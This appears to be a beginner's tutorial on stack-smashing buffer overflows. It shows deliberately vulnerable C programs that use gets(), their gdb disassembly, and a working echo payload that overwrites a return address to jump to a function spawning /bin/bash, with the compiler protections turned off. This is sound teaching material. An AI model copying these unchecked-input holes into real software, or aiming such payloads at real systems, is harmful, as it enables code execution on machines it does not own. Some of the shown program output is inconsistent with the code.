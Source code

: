 
<h3> Intro to Stack Smashing : Buffer Overflow</h3>
<hr>
</br>
<b> Ques : What is Buffer and what is buffer overflow ? </b> 
</br> 
<b> Ans &nbsp; -> Buffer </b>: Simple a temporary variable used to store data.</br>
<b>&nbsp; &nbsp; &nbsp; &nbsp; &nbsp; -> Buffer Overflow</b>: Occurs when the data written to a buffer is larger than the size of the buffer itself & there are insufficient checks , which further leads to overflow and over-writing to adjacent memory locations.</br>
</br> 
 &nbsp; &nbsp; &nbsp; Example Code : 
</br> 

```bash
user@PC-Name:~# cat vulnerableCode.c
 
#include<stdio.h>
#include<stdlib.h>

int main( int argc,  char *argv[]){
  char ans[10];
  gets(ans);
  puts(ans);

}

user@PC-Name:~# gcc -ggdb vulnerableCode.c -o vulnerableCode -m32
user@PC-Name:~# gdb vulnerableCode
> disass main
Dump of assembler code for function main:
   0x0804844d <+0>:   push   ebp
   0x0804844e <+1>:   mov    ebp,esp
   0x08048450 <+3>:   and    esp,0xfffffff0
   0x08048453 <+6>:   sub    esp,0x20
   0x08048456 <+9>:   lea    eax,[esp+0x16]
   0x0804845a <+13>:  mov    DWORD PTR [esp],eax
   0x0804845d <+16>:  call   0x8048310 <gets@plt>
   0x08048462 <+21>:  lea    eax,[esp+0x16]
   0x08048466 <+25>:  mov    DWORD PTR [esp],eax
   0x08048469 <+28>:  call   0x8048320 <puts@plt>
   0x0804846e <+33>:  leave  
   0x0804846f <+34>:  ret    
End of assembler dump.
```

</br> 
&nbsp; -> The way the stack , the registers and our buffer is rendered in memory is : <img src="./stackReference.png">.
</br> 
&nbsp; -> Now since we know that the stack grows from high memory to low memory and if we somehow are able to <b>over-write the return address with the address of our shellcode or any function we want</b>, then as soon as the function returns the control by popping the `RET` address from stack and jumpoing to it we wil achieve code execution.
</br> 
&nbsp; -> Example : 
</br> 

```bash
user@PC-Name:~# cat canYouExecuteMeCode.c 
#include<stdio.h>
#include<stdlib.h>

char ans[10];

void dangerousFunction()  {
  system("/bin/bash");
}

void getInput() {
  gets(ans);
  puts("String is : ");
  puts(ans);
}

int main( int argc,  char *argv[]){
  getInput();
}

# goal is to execute the function dangerousFunction as it would give us shell on the machine.

# For demo purposes  : Disable ASLR & compile with no stack canary + set stack as executable
user@PC-Name:~# gcc -ggdb canYouExecuteMeCode.c -o canYouExecuteMeCode -m32 -fno-stack-protector -z execstack
> disass dangerousFunction 
Dump of assembler code for function dangerousFunction:
  `0x0804847d` <+0>: push   ebp
   0x0804847e <+1>:  mov    ebp,esp
   0x08048480 <+3>:  sub    esp,0x18
   0x08048483 <+6>:  mov    DWORD PTR [esp],0x8048570
   0x0804848a <+13>: call   0x8048340 <puts@plt>
   0x0804848f <+18>: mov    DWORD PTR [esp],0x804857d
   0x08048496 <+25>: call   0x8048350 <system@plt>
   0x0804849b <+30>: leave  
   0x0804849c <+31>: ret    
End of assembler dump.

#If we somehow get the EIP (Instruction Pointer) to point to this location `0x0804847d` then this function would automatically be executed.

```

</br> 
<ul>
<li type=1>If we somehow get the EIP (Instruction Pointer) to point to this location `0x0804847d` i.e address of dangerousFunction(which gives us shell)then this function would automatically be executed.</li>
<li type=1>Now let's recollect all what we know -:</li>
&nbsp;-> layout of the stack and the fact that the buffer size of the input in 12 bytes</br>
&nbsp;-> The code running on the machine is 32-bit which means bufferSize + 8bytes(bcoz of EBP and RET address pushed in stack) + sizeof(variables declared on stack) needs to be junked and address which we want EIP to point to should be passed next.</br>
&nbsp;-> The code running on the machine is little endian (must be kept in mind while passing address)</br>
&nbsp;-> The address of dangerousFunction i.e 0x0804847d.
<li type=1>Let us create our payload now</li>

```bash
# In our case we needed 24bytes after which we can inject our actual payload.
user@PC-Name:~# echo -e 'AAAAAAAAAAAAAAAAAAAAAAAA\x7d\x84\x04\x08'
# Note the actual address passed is in reverse order (thanks to little endian)
```

<li type=1>Let's hack it..</li>

```bash
user@PC-Name:~# echo -e 'AAAAAAAAAAAAAAAAAAAAAAAA\x7d\x84\x04\x08' | ./canYouExecuteMeCode
String is at : 0xffffd724
String is at : 0xffffd724
AAAAAAAAAAAAAAAAAAAAAAAA}�
`GIVING SHELL`
`Illegal instruction (core dumped)` 
`user@PC-Name:~# `

```
<li type=1>Shell is up.</li>
<li type=1>In this example we had a `dangerousFunction()` in the code, but it will never be there in real world</li>
<li type=1>IIn the next Example we will see how we can inject our custom<a href="./shellcode.md" target="_blank"> shellcode </a> and expoit buffer overflow to get shell.</li>
</ul>
</br> 

